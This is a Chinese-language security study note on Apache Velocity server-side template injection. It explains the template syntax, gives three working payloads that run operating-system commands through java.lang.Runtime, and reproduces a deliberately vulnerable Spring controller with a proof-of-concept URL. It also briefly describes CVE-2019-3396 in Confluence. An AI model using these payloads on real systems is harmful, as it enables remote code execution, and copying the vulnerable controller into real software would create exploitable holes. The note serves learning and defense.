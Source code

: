 ```yaml
---
comments: true
---
```

# Velocity 模板注入

[Apache Velocity](https://velocity.apache.org/engine/devel/user-guide.html){target="_blank"}是一个基于Java的模板引擎，它提供了一个模板语言去引用由Java代码定义的对象，允许web 页面设计者引用JAVA代码预定义的方法

## 基本语法

**标识符**

\#用来标识Velocity的脚本语句，包括`#set`、`#if` 、`#else`、`#end`、`#foreach`、`#end`、`#include`、`#parse`、`#macro`等语句。

\$用来标识变量

{} 用来明确标识Velocity变量，例如 `someone` 为变量名，而页面中出现了 `$someonename` ，需要用 `{}` 包裹，即 `${someone}name`

"!"用来强制把不存在的变量显示为空白。如：`$!msg` 将在msg不存在时显示为空白，而不是显示 `$msg`

**定义变量**

\#set(\$varname = value)

**注释**

单行注释为`##`，多行注释以`#*`开始，以`*#`结束

**条件判断**

`#if`、`#elseif`、`#else`、`#end`

**单双引号**

单引号不解析引用内容，双引号解析引用内容

```velocity
#set ($var="aaaaa")
'$var'  ## 结果为：$var
"$var"  ## 结果为：aaaaa
```

**命令执行**
```velocity 
// 命令执行1
#set($e="e")
$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("open -a Calculator")

// 命令执行2 
#set($x='')##
#set($rt = $x.class.forName('java.lang.Runtime'))##
#set($chr = $x.class.forName('java.lang.Character'))##
#set($str = $x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('id'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach( $i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end

// 命令执行3
#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\A"))
#if($scan.hasNext())
$scan.next()
#end
```

**Velocity的使用流程**

- 初始化Velocity模板引擎，包括模板路径、加载类型等
- 创建用于存储预传递到模板文件的数据的上下文
- 选择具体的模板文件，传递数据完成渲染

## 漏洞复现

### java-sec-code
```java
import org.apache.velocity.VelocityContext;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

import org.apache.velocity.app.Velocity;

import java.io.StringWriter;

@RestController
@RequestMapping("/ssti")
public class SSTI {

    /**
     * SSTI of Java velocity. The latest Velocity version still has this problem.
     * Fix method: Avoid to use Velocity.evaluate method.
     * <p>
     * http://localhost:8080/ssti/velocity?template=%23set($e=%22e%22);$e.getClass().forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22,null).invoke(null,null).exec(%22calc%22)
     * Open a calculator in MacOS.
     *
     * @param template exp
     */
    @GetMapping("/velocity")
    public void velocity(String template) {
        Velocity.init();

        VelocityContext context = new VelocityContext();

        context.put("author", "Elliot A.");
        context.put("address", "217 E Broadway");
        context.put("phone", "555-1337");

        StringWriter swOut = new StringWriter();
        Velocity.evaluate(context, swOut, "test", template);
    }
}
```

直接利用上面的命令执行 PoC 即可

### CVE-2019-3396

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

!!! tips "影响版本"

    - <= 6.6.11
    - 6.7.0 -- 6.12.2
    - 6.13.0 -- 6.13.2
    - 6.14.0 -- 6.14.2

Todo

笔记本内存不够复现跑不起来，之后回学校台式机再搞 o.O

## 参考资料

-[CVE-2019-3396 Confluence Velocity SSTI漏洞浅析](https://xz.aliyun.com/t/8135){target="_blank"}
-[白头搔更短，SSTI惹人心！](https://xz.aliyun.com/t/7466){target="_blank"}